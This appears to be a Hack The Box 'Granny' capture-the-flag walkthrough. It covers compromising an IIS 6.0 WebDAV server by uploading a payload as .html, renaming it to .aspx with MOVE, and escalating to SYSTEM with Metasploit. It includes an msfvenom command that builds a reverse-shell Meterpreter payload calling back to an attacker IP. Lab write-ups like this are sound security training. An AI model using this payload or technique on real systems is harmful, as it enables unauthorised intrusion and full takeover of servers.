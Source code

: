 ```yaml
---
layout: PostSimple
date: 
title:     "Hack The Box - Granny"
tags: ['windows','easy','isi','put']
---
```


![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/1.png)

We are going to pwn Granny from Hack The Box.

Link : <https://www.hackthebox.eu/home/machines/profile/14>


Lets Begin with our Initial Nmap Scan.

## Nmap Scan Results:

```
80/tcp open  http    Microsoft IIS httpd 6.0
| http-methods: 
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
| http-ntlm-info: 
|   Target_Name: GRANNY
|   NetBIOS_Domain_Name: GRANNY
|   NetBIOS_Computer_Name: GRANNY
|   DNS_Domain_Name: granny
|   DNS_Computer_Name: granny
|_  Product_Version: 5.2.3790
|_http-server-header: Microsoft-IIS/6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Date: Sat, 07 Mar 2020 04:33:20 GMT
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|_  WebDAV type: Unknown
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2003|2008|XP|2000 (92%)
OS CPE: cpe:/o:microsoft:windows_server_2003::sp1 cpe:/o:microsoft:windows_server_2003::sp2 cpe:/o:microsoft:windows_server_2008::sp2 cpe:/o:microsoft:windows_xp::sp3 cpe:/o:microsoft:windows_2000::sp4
Aggressive OS guesses: Microsoft Windows Server 2003 SP1 or SP2 (92%), Microsoft Windows Server 2008 Enterprise SP2 (90%), Microsoft Windows Server 2003 SP2 (90%), Microsoft Windows XP SP3 (90%), Microsoft Windows 2003 SP2 (89%), Microsoft Windows XP (87%), Microsoft Windows Server 2003 SP1 - SP2 (86%), Microsoft Windows 2000 SP4 (85%), Microsoft Windows XP SP2 or Windows Server 2003 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## HTTP:

The webpage is running as ``ISI 6.0`` from Nmap results. Like [Grandpa](https://0xw0lf.github.io//posts/HTB-Grandpa).<br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/2.png)

The Nmap ``webdav-scan`` revealed that we have ``PUT`` options. I tried ``davtest``.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/3.png)

I opened one of the ``PUT`` link to see whats going.I captured the burp request.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/4.png)
We need to know the file extension to upload to get reverse shell.And it is Powered by ``ASP.NET`` so our payload must be in ``.asp or .aspx``.

Now we need create a payload and ``PUT`` to the website.
I used ``msfvenom`` for creating payload

>msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.22 LPORT=1234 -f aspx

![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/5.png)

We I tried uploading the payload but I got ``403 Forbidden``.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/6.png)

We know the website have lot of ``Allowed Methods`` so I checked what ``MOVE`` will do?
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/7.png)

Since ``.aspx`` is not allowed to upload we can upload someother file and change the extension back to ``.aspx``.

I used ``.html`` to upload the same payload, now we can use ``Move`` to change its extension.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/8.png)

``201 Created`` It worked, Extension changed.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/9.png)

Started my Listener in ``Msfconsole`` <br/>
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/10.png)

## Privilege Escalation:

We can try try ``local_exploit_suggester`` before that, need to ``migrate`` process inorder to make it stable. So I won't face any errors while using any exploit.
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/11.png)

Let's background this session and Use ``local_exploit_suggester``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/13.png)

So it's like [Grandpa](https://0xw0lf.github.io//posts/HTB-Grandpa) Box, same exploits.
I used the same ``windows/local/ppr_flatten_rec``
![](https://raw.githubusercontent.com/ghostbyt3/ghostbyt3.github.io/master/public/static/images/htb-granny/14.png)

Got NT AUTHORITY\SYSTEM



